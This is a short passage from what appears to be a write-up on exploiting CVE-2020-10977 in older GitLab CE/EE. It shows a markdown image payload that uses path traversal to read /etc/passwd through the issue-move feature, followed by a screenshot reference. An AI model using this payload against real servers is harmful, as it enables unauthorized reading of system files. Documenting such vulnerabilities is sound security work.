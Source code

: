 ```
![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../etc/passwd)
```

[![gitlab-move-issue.png](/assets/images/exploiting-cve-2020-10977-on-old-gitlab-ce-ee/gitlab-move-issue.png)](/assets/images/exploiting-cve-2020-10977-on-old-gitlab-ce-ee/gitlab-move-issue.png)

Here is when the error occurs.
